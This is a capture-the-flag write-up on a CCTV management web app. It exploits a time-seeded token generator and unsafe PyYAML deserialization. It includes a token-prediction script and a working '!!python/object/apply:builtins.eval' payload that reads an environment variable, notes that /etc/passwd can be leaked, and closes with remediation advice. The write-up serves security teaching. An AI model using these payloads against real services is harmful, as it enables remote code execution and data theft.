 ## Description
This challenge revolves around a Python web application running a CCTV management program that renders a front-end template using configuration data parsed from a user-supplied YAML file. The application uses the `yaml.load()` function from the `PyYAML` library with the `yaml.Loader` loader, which according to [PyYAML's GitHub](https://github.com/yaml/pyyaml/blob/main/lib/yaml/loader.py), is the same as `yaml.UnsafeLoader`. These loaders are unsafe when used on untrusted input, which in the case of this challenge, coupled with a lack of input sanitisation, allows an attacker to execute arbitrary Python code during deserialization.

## Source Code Review
Analysing the source code is an effective way to identify vulnerable points, especially when dealing with serialization and deserialization functions. In this scenario, we are presented with a program that requires 2 user inputs, `YAML` and `TOKEN`. Submitting an invalid token results in an `Unauthorized (invalid token)` error:

![Invalid Token](./images/invalid_token.png)

### Code Analysis
The first step in uncovering the vulnerability is to examine how our input is being handled by the program. In this scenario, a Web Application Firewall URL-encodes the 2 user inputs before they reach the web server.

```python
def main():
    tokenRoot = genToken(int(time.time()) // 1)

    yamlConfig = unquote(USER_INPUT_A)
    tokenGuest = unquote(USER_INPUT_B)

    access = bool(tokenGuest == tokenRoot)

    firmware = None
    if access:
        try:
            data = yaml.load(yamlConfig, Loader=yaml.Loader)
            firmware = Firmware(**data["firmware"])
            firmware.update()
        except:
            pass
        
    print( template.render(access=access) )
```

In the `main()` function, our user inputs (denoted as `USER_INPUT_A` and `USER_INPUT_B`) are first decoded using the `unquote()` function, returning to their original form (our raw input). `USER_INPUT_B` is stored in the variable `tokenGuest`, which is used to check for equality against the `tokenRoot` variable. This value of the `tokenRoot` variable is returned from the `genToken()` function.

```python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
```

The `genToken()` function takes its argument and uses it as the seed in the `random.seed()` function. An important note to have is that using the same seed will generate the same "random" number.  If we analyse the argument that `genToken()` receives, it is the return value of the `time.time()` function but converted to an `int`. In other words, it is the current time but without considering values smaller than the current second such as milliseconds or nanoseconds. This hints to us that the value we supply for `USER_INPUT_B` will need to be generated from a similar function as `getToken()`, with the time seed matching that of the server's down to the seconds level.

```python
if access:
    try:
        data = yaml.load(yamlConfig, Loader=yaml.Loader)
        firmware = Firmware(**data["firmware"])
        firmware.update()
    except:
        pass
```

In the `main()` function, if we zoom into this code segment (which will be executed as long as we supply a correct token for `USER_INPUT_B`), we notice that the YAML data that we supply in `USER_INPUT_A` is being deserialized with the `yaml.Loader` loader. According to according to [PyYAML's GitHub](https://github.com/yaml/pyyaml/blob/main/lib/yaml/loader.py), this loader should rarely be used as it is unsafe, as commented in its source code:

```python
# UnsafeLoader is the same as Loader (which is and was always unsafe on
# untrusted input). Use of either Loader or UnsafeLoader should be rare, since
# FullLoad should be able to load almost all YAML safely. Loader is left intact
# to ensure backwards compatibility.
```

```python
class Firmware():
    def __init__(self, version:str):
        self.version = version
    
    def update(self):
        pass
```

The `Firmware` class consists of a property named `version` and a dud method `update()`. From the previous source code snippet, we can see that the loading of the YAML configuration and the instantiation of the `Firmware` class is wrapped in a try-except block, which tells us that even if we supply some input that the class' constructor does not expect, the program should still function.

Finally, we can note that the flag is being stored as an environment variable by looking at the setup code:

```python
os.environ["FLAG"] = flag
```

### Conclusions drawn from Code Analysis
As we have observed from the source code, `USER_INPUT_B` (the `tokenGuest` variable), should be identical to `tokenRoot`, meaning that the seed should be the timestamp when the `genToken()` function is called, down to the seconds level in terms of accuracy. We can generate the guest token using a function identical to `genToken()` ahead of time:

```python
import random
import time

def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))

current_time = time.time()

for delta in [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]:
    token = genToken(int(time.time() + delta) // 1)
    print(f"Token (delta={delta}): {token}")
```

This script will return us the token for each second ahead of the time in which the script is invoked, up to 10 seconds:

```
Token (delta=1): 3571f3b758c657aa
Token (delta=2): 53e36b7315d40dcc
Token (delta=3): e075348dabf37ec9
Token (delta=4): aec4892f0c19a8f9
Token (delta=5): 9d3523a4cd24a6b5
Token (delta=6): 3a7dc8555c5b82d7
Token (delta=7): 5b71f3ed1afb143e
Token (delta=8): 5996d6722862b14b
Token (delta=9): 709a36350bacd2ce
Token (delta=10): bc39242b4053e0f8
```

In this challenge, I used the token with a delta of `10` which is the token that will be exactly valid 10 seconds after I run the script. We can test this script by copying the last token it prints, wait 10 seconds, and send it as `USER_INPUT_B` (`TOKEN`). As shown in the following image, we do not get the `Unauthorized (invalid token)` error anymore:

![Valid Token](./images/valid_token.png)

Now that the token issue is resolved, we need to figure out what to send for `USER_INPUT_A` (`YAML`). PyYAML allows for the execution of Python functions during object construction using the `!!python/object/apply` tag. This tag can be abused to call eval() with attacker-controlled arguments. In order for us to obtain our `FLAG` environment variable, we would typically pass something like this to `eval()`:

```python
__import__('builtins').print(__import__('os').environ['FLAG'])
```

As we are expected to supply YAML data, we can then wrap the payload as such:

```yaml
firmware: !!python/object/apply:builtins.eval
  - "__import__('builtins').print(__import__('os').environ['FLAG'])"
```

or equivalently as a one-liner:

```yaml
firmware: !!python/object/apply:builtins.eval ["__import__('builtins').print(__import__('os').environ['FLAG'])"]
```

Since the `eval()` call returns `None`, `data["firmware"]` is `None`, and thus `Firmware(**None)` will raise a `TypeError`. As mentioned previously, this is fine since the code is wrapped in a try-except block.

## Proof of Concept
Now that we know what YAML data to send and have a script to generate the token, all that is left is to run the aforementioned script and copy the last token that has a delta of 10 seconds, before submitting the request containing the YAML data alongside the copied token to the Dojo interface after exactly 10 seconds.

![Flag Revealed](./images/flag_revealed.png)

**PAYLOAD (YAML):** `firmware: !!python/object/apply:builtins.eval ["__import__('builtins').print(__import__('os').environ['FLAG'])"]`
**PAYLOAD (TOKEN):** `bc39242b4053e0f8` (output of the script in the previous section)
**FLAG:** `FLAG{M4lware_F1rmw4r3_N0t_F0und}`


## Risk
This vulnerability presents a serious risk as it allows an attacker to execute arbitrary Python code, achieving Remote Code Execution. The attacker is then capable of:
1. Reading files **(confidentiality compromised)**
2. Modifying files **(integrity compromised)**
3. Deleting Files / Crashing the server **(availability compromised)**

For example, we are able to leak the contents of /etc/passwd:

![Leaked /etc/passwd Contents](./images/passwd_file_leaked.png)

## Remediation
To remediate the vulnerability, the following pointers can be taken note of:
1. Never use `yaml.load()` with `yaml.Loader` on untrusted input.
2. Use `yaml.safe_load()` instead of `yaml.load()`, which only supports standard YAML types (might not be feasible for this CCTV management program). Alternatively, `yaml.FullLoader` may be used instead of `yaml.Loader`.
3. Apply input validation to ensure that the uploaded YAML data conforms to schema requirements.
4. Consider using cryptographically secure random values for token generation rather than `int(time.time())`, unless the current time-based method was intentionally designed for simplicity or other reasons.

![Challenge Completed](./images/pwned.jpg)